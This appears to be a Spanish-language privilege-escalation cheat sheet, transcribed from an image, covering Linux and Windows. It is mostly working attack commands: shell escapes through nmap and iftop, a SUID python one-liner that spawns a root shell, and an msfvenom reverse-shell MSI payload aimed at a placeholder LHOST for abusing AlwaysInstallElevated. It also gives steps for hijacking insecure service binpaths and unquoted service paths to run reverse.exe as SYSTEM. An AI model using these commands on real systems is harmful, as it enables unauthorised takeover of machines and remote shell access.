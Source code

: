 
##nmap available on versions 2.02 to 5.21
nmap --interactive
#>sh!

##binarios linux
Si podemos ejecutar con permiso de root  (sudo -l)
ejecutamos iftop
!/bin/sh   #signo d exclamacion para introducir comando



##Busqueda de ejecutables por root
find / -type f -perm 4000 2>/dev/null
/usr/bin/python 
python https://gtfobins.github.io/gtfobins/python/#suid
$python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

##Metodos de elevasion de privilegio en WINDOWS 10
#Elevasion de privilegios Windows
reg query HKCU/SOFTWARE/Policies/Microsoft/Windows/Installer /v AlwaysInstalledElevated
reg query HKLM/SOFTWARE/Policies/Microsoft/Windows/Installer /v AlwaysInstalledElevated
Si esto presenta 0x1 de resultado podemos ejecutar un instalable con acceso administrador
msfvenom -p windows/x64/shell_reverse_tcp LHOST=X.X.X.X LPORT=9999 -f msi -o reverse.msi

Teniendo una shell comun ejecutamos
msiexec /quiet /qn /i C:\<path>\reverse.msi

---------------------
#SERVICE EXPLOITS - Permisos de servicio inseguros
Necesitamos accesschk.exe -herramienta de windows oficial
accesschk.exe /accepteula -uwcqv <usuario> <servicio>    
sc qc <servicio>  # Nos muestra que ejecuta con privilegios SYSTEM 

CONDICIONAL - METODOLOGIA 

"Insecure Service Permissions
Si accesschk.exe /accepteula -uwcqv <usuario> <servicio> #Nos muestra los permisos Si SERVICE_CHANGE_CONFIG habilitado
Si sc qc <servicio> #Nos muestra SERVICE_START_NAME 
Podemos modificar la configuracion y setear BINARY_PATH_NAME(binpath) a un reverse.exe
sc config <servicio> binpath="\"C:\ruta\reverse.exe\""
net start <servicio>

"Unquoted service path"
Si accesschk.exe /accepteula -uwcqv <user/system> <servicio> #Nos muestra RW C:\Program Files\Unquoted Path Service\ permisos de escritura
Si sc qc <servicio> # Nos muestra el binary_path_name con una ruta pero sin comillas podemos explotar la literalidad de la ruta
ejemplo 
C:\Program Files\Unquoted Path Service\Common Files\servicio.exe 
C:\Program Files\Unquoted Path Service\Common.exe    #Windows va a buscar en esa ruta el ejecutable antes de la ruta completa
cp reverse.exe C:\Program Files\Unquoted Path Service\Common.exe
net start <servicio>
